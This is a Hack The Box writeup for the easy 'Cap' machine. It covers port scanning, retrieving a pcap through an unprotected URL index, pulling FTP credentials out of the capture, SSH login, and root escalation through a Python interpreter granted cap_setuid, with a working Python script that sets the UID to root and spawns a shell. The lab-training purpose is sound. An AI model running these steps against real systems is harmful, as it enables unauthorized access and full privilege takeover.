

+++ 
date = 2025-11-15T04:33:55+08:00
title = "Cap (Easy) Writeup"
description = "This is a basic write up for the 'CAP' machine on HTB"
slug = "Cap-HTB"
tags = ["Wireshark", "Binary Capabilities"]
externalLink = ""
category = []
series = []
+++

# Introduction

> This is a writeup for the HTB machine "[Cap](https://app.hackthebox.com/machines/Cap)". It's user rated to be easy and is a great entry level box.

This machine focuses on unrestricted URL directories, unsecure login details, and basic vulnerability enumeration on the target machine. Let's dive into the machine and look at how we could approach it.

# Enumeration
## Initial Recon
To start with, we'll do our basic **nmap** scans of the machine. For something this simple, we don't need to overcomplicate it.

```bash
┌─[parrot@parrot]─[~/htb/boxes/Cap]
└──╼ $ nmap 10.10.10.xxx
```

Without being too fancy, we can get a quick look at the machine's ports and potential services. After running this, we get an output:

```bash
Nmap scan report for 10.10.10.xxx
Host is up (0.14s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 19.10 seconds
```

Here we can see that the machine is running ftp (basic file serving), ssh (remote connection) and http (basic webserver). Since websites are easy to investigate, lets start there.

Navigating to the front page, we get this:


It seems to be a basic security dashboard. Looking at some of the links, most are dead ends. But the sidebar does lead to some interesting places. Firstly, when we navigate to the Securiy Snapshot page, we end up at
> http://10.10.10.245/data/1

I notice that we get a number in the URL here, so let's try and refresh the page and see what happens
> http://10.10.10.245/data/2

Interesting... The URL seems to index the snapshot version which would imply its global, regardless of someones login. Since we started at /1, I wonder if we can get to /0; unsurprisingly, we are able to access a snapshot at /0 and so I'll download it and see what it shows.

```bash
┌─[parrot@parrot]─[~/htb/boxes/Cap]
└──╼ $ cd Artifacts

┌─[parrot@parrot]─[~/htb/boxes/Cap/Artifacts]
└──╼ $ ls

Security_Snapshot_0.pcap
```

So now that we downloaded the snapshot, we see that its a pcap or packet capture file, these are common outputs for software like wireshark so lets open it in that.

```bash
┌─[parrot@parrot]─[~/htb/boxes/Cap]
└──╼ $ wireshark Security_Snapshot_0.pcap
```


There's alot of unhelpful traffic here, but what immediately caught my eye was the ftp traffic. Thinking back to the initial nmap scan we saw, ftp was an open service running on the server. Opening the first few packets, we can some basic back and forth for a login to the server, then we get a hit. A login username from one packet, and a password from the next.




So now that we have a login, lets see what we can find in ftp.

## Initial Access
```bash
┌─[parrot@parrot]─[~/htb/boxes/Cap]
└──╼ $ ftp 10.10.10.245
Connected to 10.10.10.xxx.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:parrot): nathan
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp > ls
drwxr-xr-x    3 1001     1001         4096 Nov 14 18:05 snap
-r--------    1 1001     1001           33 Nov 14 18:04 user.txt

ftp > pwd
Remote directory: /home/nathan

ftp > !cd Artifacts

ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||50266|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |************************|    33      565.37 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.21 KiB/s)
```

I did more digging and didn't find much else worth looking into, but we got the user.txt flag so we know we're on the right track.

```bash
┌─[parrot@parrot]─[~/htb/boxes/Cap]
└──╼ $ cat user.txt
59516xxxxxxxxxxxxxxxxxxxxdf71224
```

The next thing to try is ssh. We know that both ftp *and* ssh was active from our **nmap** scan, so lets try the credentials there.

# User Exploitation
## Lay of the land
```bash
┌─[parrot@parrot]─[~/htb/boxes/Cap]
└──╼ $ ssh nathan@10.10.10.xxx
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Nov 15 07:39:40 UTC 2025

  System load:           0.0
  Usage of /:            37.4% of 8.73GB
  Memory usage:          36%
  Swap usage:            0%
  Processes:             237
  Users logged in:       0
  IPv4 address for eth0: 10.10.10.245
  IPv6 address for eth0: dead:beef::250:56ff:fe95:f64d

  => There are 2 zombie processes.


63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Nov 14 18:51:00 2025 from 10.10.14.70
nathan@cap:~$ 
```

Expectantly it works, and we're in the same directory as our ftp shell.

```bash
nathan@cap:~$ ls
snap user.txt

nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)

nathan@cap:~$ uname -a
Linux cap 5.4.0-80-generic 90-Ubuntu SMP Fri Jul 9 22:49:44 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux

nathan@cap:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
nathan:x:1001:1001::/home/nathan:/bin/bash # (no other users have a login shell)

nathan@cap:~$ ps -ef # Running services
... # Services of note Python3, lxc/lxd

nathan@cap:~$ getcap -r / 2>/dev/null # View binary capabiltiies
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip # !!!!
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

This is exactly what we're looking for. The 
> /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip

Is very important as it shows our python interpreter has explicit permission to do some dangerous things. Even more so as we control what we can feed to python through scripts. 

The *cap_setuid* capability means Python (and anything it executes) can **switch to another user**. The *cap_net_bind_service* capability is dangerous as normally only root can **bind to ports <1024**. Giving this to Python means any Python script can open a service on a privileged port. Combine these with +eip which stand for effective, inheritable and permmitted means there are no guardrails.

So lets create a script to test, then exploit out machine here.

```bash
nathan@cap:~$ vim poc.py
```
```python
# poc.py
import os

try:
    print("[*] Attempting to set UID as root (0)")
    os.setuid(0) # uid (0) indicates root
    print("[*] Successfuly set to root, now spawning a shell")
    import pty
    pty.spawn("/bin/bash")
except Exception as e:
    print(f"[*] Failed to set UID: {e}")
```
```bash
nathan@cap:~$ ls 
snap poc.py user.txt 

nathan@cap:~$python3 poc.py
[*] Attempting to set UID as root (0)
[*] Successfuly set to root, now spawning a shell
root@cap:~# whoami
root

root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)

root@cap:~# cd /root && ls
root.txt  snap

root@cap:~# cat root.txt
0eaxxxxxxxxxxxxxxxxxxxxxxxxx4d8d
```

Congratulations we got root by exploiting unsafe binary capabilities on a python intepreter that allowed us to arbritrarily execute our script as whatever user (including root) that we wanted. This isn't always something exploitable. Some user accessible binaries may have the same capabilities as python did, but if we can't manipulate or provide user input to control the binary like we can with python scripts, it may not be an attack vector. 

TFR.